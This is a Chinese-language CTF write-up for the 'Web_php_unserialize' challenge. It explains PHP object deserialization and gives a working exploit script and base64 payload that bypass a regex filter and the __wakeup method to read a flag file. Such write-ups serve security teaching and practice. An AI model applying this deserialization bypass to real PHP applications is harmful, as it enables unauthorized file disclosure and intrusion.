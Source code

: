 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:      Web_php_unserialize    # 标题 
subtitle:    攻防世界   #副标题
date:       2020-07-13         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - CTF
  
---
```



```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

`preg_match()`返回 pattern 的匹配次数。 它的值将是0次（不匹配）或1次，因为preg_match()在第一次匹配后 将会停止搜索。preg_match_all()不同于此，它会一直搜索subject 直到到达结尾。 如果发生错误preg_match()返回 FALSE。

`unserialize()` 对单一的已序列化的变量进行操作，将其转换回 PHP 的值。  若被解序列化的变量是一个对象，在成功地重新构造对象之后，PHP 会自动地试图去调用 `__wakeup()` 成员函数（如果存在的话）。 

`serialize()` 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个 E_NOTICE 级别的错误。

 与之相反，`unserialize()` 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。

`__wakeup()` 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。 

`__desturct()`生命周期结束时，则调用desturct()。

知道了函数的作用，也就差不多理解了这段代码的意思。

先base64解码GET接收到的变量`$var`,然后进行正则匹配检测，如果匹配到了就失败了。没匹配到就会执行解序列化。

在反序列化时 ， PHP 会先执行 __wakeup() 函数 . 本题中 __wakeup() 函数的作用为 : 将 $file 变量强制赋值为 index.php ， 而题目又提示 flag 在 fl4g.php 中 ， 因此这又牵扯到一个问题了 : 如何绕过 __wakeup() 函数。

解题开始：

* 绕过正则

正则匹配的规则是: 在不区分大小写的情况下 ， 若字符串出现 "o:数字" 或者 "c:数字' 这样的格式 ， 那么就被过滤。

但是我们进行序列化Demo对象时，必将会出现`O:4:`,所以我们得绕过。

直接在4前面加一个加号`+`.

* 绕过__wakeup()

我们仅需要破坏对象属性检查就可以绕过 `__wakeup()` 函数 ， 最简单的方法就是增大对象属性的个数 ， 使其反序列化异常 .

* 构造exp

```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
    $obj = new Demo('fl4g.php');
    $str = serialize($obj);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $str1 = str_replace('O:4', 'O:+4',$str);//绕过preg_match
    $str2 = str_replace(':1:', ':2:',$str1);//绕过wakeup
    var_dump($str2);
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
    var_dump(base64_encode($str2));
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>
```

Exp : `TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==`

之后提交`var`变量即可。

![UYr590.png](https://s1.ax1x.com/2020/07/13/UYr590.png)

**ps:**

之前我把生成的对象序列化之后输出，复制之后，手工替换`绕过正则`和`__wake`,base64编码之后，发现解不出题...........

看了大佬[博客](https://www.guildhab.top/?p=990)才知道。

**不同属性的对象序列化后字符格式是不一样的**

```
Private属性 ： 数据类型:属性名长度:&quot;\00类名\00属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;

Protected属性 ： 数据类型:属性名长度:&quot;\00*\00属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;

Public属性 ： 数据类型:属性名长度:&quot;属性名&quot;;数据类型:属性值长度:&quot;属性值&quot;;
```

1、将序列化之后的字符串直接存入文件。

    $obj = new Demo('fl4g.php');
    $str = serialize($obj);
    $file=fopen("a.txt","w") or die("can't open file");
   fwrite($file,$str);
    fclose($file);

2、将序列化后的字符串输出，直接复制粘贴到文件。

	echo $str;

3、vim查看a.txt

![UYD6oR.png](https://s1.ax1x.com/2020/07/13/UYD6oR.png)

输出到命令行的序列化字符串格式已经被破坏 ， 因此必须要在脚本中直接构造出完整的 Exp

参考：https://www.guildhab.top/?p=990

反序列化漏洞： https://www.jianshu.com/p/1d2c65601d2a